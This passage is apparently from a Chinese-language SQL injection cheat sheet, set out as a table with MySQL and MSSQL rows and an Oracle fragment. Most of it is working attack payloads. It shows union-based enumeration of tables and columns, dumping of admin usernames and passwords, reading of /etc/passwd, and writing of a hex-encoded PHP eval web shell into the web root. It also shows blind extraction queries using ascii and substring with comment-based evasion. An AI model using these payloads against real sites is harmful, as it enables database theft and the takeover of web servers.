 若为基于时间或者基于bool类型盲注，可结合substr 、ASCII进行赋值盲测。  
若屏蔽关键函数，可尝试SYS_CONTEXT('USERENV','CURRENT_USER')类用法。 |
| Mysql | #正常语句  
192.168.192.128/sqltest/news.php?id=1  
#判断存在注入否  
192.168.192.128/sqltest/news.php?id=1 and 1=2  
#确定字段数 order by  
192.168.192.128/sqltest/news.php?id=-1 order by 3  
#测试回显字段  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,3  
#测试字段内容  
192.168.192.128/sqltest/news.php?id=-1 union select 1,user(),3  
192.168.192.128/sqltest/news.php?id=-1 union select 1,group_concat(user(),0x5e5e,version(),0x5e5e,database(),0x5e5e,@@basedir),3  
#查询当前库下所有表  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()  
#查询admin表下的字段名（16进制）  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x61646d696e  
#查询admin表下的用户名密码  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(name,0x5e,pass) from admin  
#读取系统文件（/etc/passwd，需转换为16进制）  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,load_file(0x2f6574632f706173737764)  
#文件写入  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/var/www/html/1.php'--  
_PS：若权限不足，换个目录_ |
| MSSQL | _PS：回显型请查阅参考资料的链接，这里主要盲注的语法。_  
#爆数据库版本（可先测长度）  
aspx?c=c1'/**/and/**/ascii(substring(@@version,1,1))=67/**/--&t=0  
ps:在范围界定时，可利用二分查找结合大于小于来利用；亦可直接赋值脚本爆破，依次类推直至最后一字母。  
#爆当前数据库名字  
aspx?c=c1'/**/and/**/ascii(substring(db_name(),1,1))>200/**/--&t=0  
#爆表  
aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/1 name/**/from/**/dbname.sys.all_objects where type='U'/**/AND/**/is_ms_shipped=0),1,1))>0/**/--&t=0  
#爆user表内字段  
aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/ 1/**/COLUMN_NAME from/**/dbname.information_schema.columns/**/where/** /TABLE_NAME='user'),1,1))>0/**/--&t=0  
#爆数据  
aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/1/**/fPwd/**/from/**/User),1,1))>0/**/--&t=0 |

_PS:关于注入绕过（bypass），内容偏多、过细，本次暂不归纳。单独一篇_

0x05 漏洞挖掘
=========

* * *
